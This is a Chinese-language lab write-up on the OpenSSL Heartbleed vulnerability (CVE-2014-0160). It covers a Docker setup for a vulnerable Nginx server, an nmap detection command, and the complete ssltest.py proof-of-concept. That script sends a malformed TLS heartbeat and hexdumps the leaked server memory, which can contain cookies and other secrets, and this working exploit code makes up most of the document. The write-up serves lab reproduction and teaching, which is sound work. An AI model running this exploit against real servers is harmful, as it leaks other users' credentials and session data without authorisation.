

# OpenSSL 心脏出血漏洞 CVE-2014-0160

## 漏洞描述

在OpenSSL1.0.1版本中存在严重漏洞（CVE-2014-0160），此次漏洞问题存在于ssl/dl_both.c文件中。OpenSSL Heartbleed模块存在一个BUG，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据，会导致memcpy把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的openssl服务器内存中长大64K的数据。

心脏出血是一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。

参考链接：

- https://heartbleed.com/
- https://filippo.io/Heartbleed

## 环境搭建

Vulhub运行如下命令启动一个使用了OpenSSL 1.0.1c的Nginx服务器：

```
docker-compose up -d
```

环境启动后，访问`https://your-ip`即可查看到hello页面。



## 漏洞复现

通过Nmap进行漏洞检测：

```shell
nmap -sV -p 443 --script ssl-heartbleed.nse your-ip
```


Python运行[ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/heartbleed/ssltest.py)，拿到敏感数据（可能包含Cookie）。


## 漏洞POC

ssltest.py：

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import binascii
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return binascii.unhexlify(x.replace(' ', '').replace('\n', ''))

hello = h2bin('''
16 03 02 00 dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s: bytes):
    for b in range(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % c for c in lin)
        pdat = ''.join((chr(c) if 32 <= c <= 126 else '.' )for c in lin)
        print('  %04x: %-48s %s' % (b, hxdat, pdat))

    print("")

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = b''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print('Unexpected EOF receiving record header - server closed connection')
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print('Unexpected EOF receiving record payload - server closed connection')
        return None, None, None
    print(' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay)))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print('No heartbeat response received, server likely not vulnerable')
            return False

        if typ == 24:
            print('Received heartbeat response:')
            hexdump(pay)
            if len(pay) > 3:
                print('WARNING: server returned more data than it should - server is vulnerable!')
            else:
                print('Server processed malformed heartbeat, but did not return any extra data.')
            return True

        if typ == 21:
            print('Received alert:')
            hexdump(pay)
            print('Server returned error, likely not vulnerable')
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('Connecting...')
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print('Sending Client Hello...')
    sys.stdout.flush()
    s.send(hello)
    print('Waiting for Server Hello...')
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print('Server closed connection without sending Server Hello.')
            return
        # Look for server hello done message.
        if typ == 22 and pay[0] == 0x0E:
            break

    print('Sending heartbeat request...')
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

